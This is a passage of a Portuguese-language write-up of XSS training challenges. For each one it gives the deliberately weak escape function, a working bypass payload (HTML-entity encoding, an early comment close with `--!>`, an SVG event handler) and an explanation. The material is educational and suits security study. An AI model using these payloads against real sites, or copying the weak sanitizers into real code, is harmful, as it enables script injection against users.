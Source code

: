 
Esta fase envolve a regex `/<\/?[^>]+>/gi` que substitui tags HTML que contém `<...>` e os substitui por uma string vazia. O ataque inicia uma tag SVG e define um manipulador de eventos que executa `prompt(1)` assim que o SVG é carregado.
[![imagem-2025-05-12-005627602.png](https://i.postimg.cc/wjNqWY83/imagem-2025-05-12-005627602.png)](https://postimg.cc/Wd2c3K4P)

#### Desafio 2: filtro de "=" e "("
- Código vulnerável:
[![imagem-2025-05-12-005937026.png](https://i.postimg.cc/wxVYjTHh/imagem-2025-05-12-005937026.png)](https://postimg.cc/SjJvZ4ns)

```bash
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}        
```
- Payload funcional:
```bash
<svg><script>prompt&#40;1)</script>
```
- Explicação:

A função remove os seguintes caracteres específicos = e ( usando a expressão regular `/[=(]/g, ''`. Para contornar esse filtro usa-se um payload que não contenha tais caracteres, transformando os mesmos em entidades HTML, `&#40;`, quando o navegador renderiza o código, a entidade é convertida de volta para `(`, permitindo que o `prompt(1)` seja executado.
[![imagem-2025-05-12-011047295.png](https://i.postimg.cc/tJmCYFwM/imagem-2025-05-12-011047295.png)](https://postimg.cc/vxfdKxQr)

#### Desafio 3: remoção de "-->" e comentário HTML
- Código vulnerável:
[![imagem-2025-05-12-011337451.png](https://i.postimg.cc/0NbQ1W4J/imagem-2025-05-12-011337451.png)](https://postimg.cc/gwbdvDmY)

```bash
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```
- Payload funcional:
```bash
--!><script>prompt(1)</script>
```
- Explicação:

A função implementada tenta comentar a entrada do usuário dentro de um bloco HTML `<!--...-->` para evitar a execução de scripts. Além disso, substitui `->` por `_`para evitar quebra de comentários. O uso de `--!>`serve para fechar o comentário HTML antecipadamente, permitindo que o payload seja interpretado como código não comentado e assim, executado.
[![imagem-2025-05-12-012408924.png](https://i.postimg.cc/L6vDyDZ1/imagem-2025-05-12-012408924.png)](https://postimg.cc/JGDj0bxr)
